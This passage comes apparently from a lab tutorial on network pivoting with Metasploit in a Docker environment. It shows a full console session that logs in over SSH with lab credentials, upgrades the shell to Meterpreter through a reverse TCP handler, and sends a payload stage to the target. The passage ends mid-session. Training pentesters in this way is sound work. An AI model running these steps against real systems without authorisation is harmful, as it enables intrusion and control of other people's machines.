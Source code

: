 ------

## Method 2: Pivot With Meterpreter and socks proxy

Some servers don't run SSH, and I often like to leverage meterpreter once I find an initial entry vector for a variety of reasons. Similar to SSH, meterpreter can become a socks proxy, though I have generally found it less reliable than SSH. If you are using the docker compose file provided, I include a slightly modified metasploit image on the public network.

Unfortunately, socks4 proxies only generally support TCP protocols, and certain kinds of traffic won't work well, so full nmap and similar tool usage may not be possible.

### Setup the connection

We'll run meterpreter over SSH for this example, but the steps would be the same for any meterpreter session once connected. The below will jump from our machine into the metasploit docker container, start metasploit, and create a meterpreter over SSH connection.

    # Create a shell on the metasploit image
    $ docker exec -it pivots_metasploit_1 /bin/bash
    root@3456fe097a17:/$ msfconsole
    msf5 > use auxiliary/scanner/ssh/ssh_login
    msf5 auxiliary(scanner/ssh/ssh_login) > set RHOSTS ssh
    RHOSTS => ssh
    msf5 auxiliary(scanner/ssh/ssh_login) > set USERNAME pentester
    USERNAME => pentester
    msf5 auxiliary(scanner/ssh/ssh_login) > set PASSWORD letspivot
    PASSWORD => letspivot
    msf5 auxiliary(scanner/ssh/ssh_login) > exploit

    [+] 172.21.0.2:22 - Success: 'pentester:letspivot' ''
    [*] Command shell session 1 opened (172.21.0.3:42077 -> 172.21.0.2:22) at 2019-09-19 12:50:57 +0000
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

    msf5 auxiliary(scanner/ssh/ssh_login) > sessions

    Active sessions
    ===============

    Id  Name  Type           Information                              Connection
    --  ----  ----           -----------                              ----------
    1         shell unknown  SSH pentester:letspivot (172.21.0.2:22)  172.21.0.3:42077 -> 172.21.0.2:22 (172.21.0.2)

    msf5 auxiliary(scanner/ssh/ssh_login) > sessions -u 1
    [*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

    [!] SESSION may not be compatible with this module.
    [*] Upgrading session ID: 1
    [*] Starting exploit/multi/handler
    [*] Started reverse TCP handler on 172.21.0.3:4433 
    [*] Sending stage (985320 bytes) to 172.21.0.2
    [*] Meterpreter session 2 opened (172.21.0.3:4433 -> 172.21.0.2:57642) at 2019-09-19 12:51:09 +0000
    [*] Command stager progress: 100.00% (773/773 bytes)
    msf5 auxiliary(scanner/ssh/ssh_login) > sessions
